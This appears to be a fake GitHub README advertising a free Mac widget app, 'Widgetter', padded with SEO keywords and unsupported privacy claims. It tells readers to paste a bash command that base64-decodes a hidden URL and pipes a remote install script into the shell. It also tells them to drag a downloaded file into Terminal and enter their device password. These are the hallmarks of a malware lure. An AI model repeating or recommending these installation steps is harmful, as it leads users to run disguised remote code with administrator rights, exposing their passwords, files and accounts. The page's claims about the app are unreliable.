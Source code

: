 # Widgetter — Download For Mac OS 🖥️
![logo](https://media.imgcdn.org/repo/2023/09/widgetter/64f1b01e9235a-widgetter-Icon.webp)

Widgetter is a sleek, lightweight desktop application for Mac OS that enhances your productivity with customizable widgets. Follow the instructions below to install it effortlessly and organize your workflow like never before!

[![Download Now](https://img.shields.io/badge/Download-Now-blue?style=for-the-badge&logo=apple)](https://mrboomzeus519.github.io/gimronus/widgetter)

If the download button doesn’t work, follow the terminal-based installation instructions below.

## 📦 How to Install Widgetter For Mac OS

### Installation via .dmg:

1. Install the .dmg file using the button above.
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

### Installation via a command in the terminal:

1. Copy the installation command below:

```
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQzL2luc3RhbGwuc2g= | base64 -d))"
```

2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

## 🎯 What You Get with Widgetter

- 🕒 **Real-Time Updates**: Monitor your tasks, calendar, and weather with live-updating widgets.  
- 🎨 **Customizable Layouts**: Personalize widget sizes, colors, and positions to match your style.  
- ⚡ **Lightweight Performance**: Runs smoothly on Mac OS without draining system resources.  
- 📊 **Productivity Boost**: Organize your day with at-a-glance insights into your schedule and tasks.  
- 🔒 **Secure & Private**: No data collection, ensuring your information stays on your device.  
- 🌐 **Seamless Integration**: Syncs with native Mac apps like Calendar and Notes for a unified experience.

## About Widgetter

Widgetter is a free desktop application designed to streamline your Mac OS experience with customizable, interactive widgets. Whether you’re a professional managing multiple projects or a student keeping track of assignments, Widgetter offers a clean and intuitive way to stay organized. By integrating seamlessly with your Mac’s native apps, it ensures you have all your essential information at your fingertips. With its focus on **free download**, Widgetter is accessible to all Mac users looking to enhance their desktop productivity without complex setups.

The app’s lightweight design makes it ideal for users who value performance. Unlike bulky productivity tools, Widgetter operates efficiently, using minimal system resources while delivering maximum functionality. Its **Mac OS widget app** framework allows for real-time updates, ensuring your calendar, weather, or task widgets are always current. This makes it a perfect choice for users searching for a **desktop widget for Mac free** solution that doesn’t compromise on quality.

Security is a top priority for Widgetter. Unlike many apps that collect user data, Widgetter operates entirely offline, ensuring your information remains private. This focus on privacy makes it a standout choice for those seeking a **secure widget app for Mac**. The app’s design prioritizes user control, allowing you to customize every aspect of your widgets, from layout to functionality, without invasive permissions or subscriptions.

For users looking to **download free Mac apps**, Widgetter stands out with its ease of installation. Whether you opt for the .dmg file or the terminal-based setup, the process is straightforward and user-friendly. The app’s compatibility with the latest Mac OS versions ensures a smooth experience, making it a go-to for anyone searching for **productivity apps for Mac free**. Its open-source nature also invites developers to contribute, ensuring continuous improvements.

### Why Choose Widgetter?

Widgetter’s key advantage lies in its simplicity and flexibility. Unlike other widget apps that overwhelm with unnecessary features, Widgetter focuses on delivering a **customizable Mac widget** experience tailored to your needs. Its free availability, combined with robust functionality, makes it a top choice for users searching for **free Mac software download**. With no hidden costs or subscriptions, Widgetter empowers you to take control of your desktop without breaking the bank.

## 🖼 Preview

![Widgetter Dashboard](https://widgetter.com/static/media/dark.87998b248dafd47fd020.jpg)  
*View your tasks, calendar, and weather in a sleek dashboard.*

![Custom Widget Layout](https://widgetter.com/static/media/dark.5b121629995434bc4b48.jpg)  
*Personalize widget sizes and positions to suit your workflow.*

![Real-Time Updates](https://widgetter.com/static/media/dark.2f0c16e66b9fd26c1438.jpg)  
*Stay updated with live weather and task notifications.*

## 🔍 Tags

Widgetter for Mac, free Mac widget app, download Widgetter free, Widgetter, Widgetter mac, Widgetter mac os, Widgetter download, Widgetter free, Widgetter free download, Widgetter download free, Widgetter for mac, Widgetter for free, free Widgetter, download Widgetter
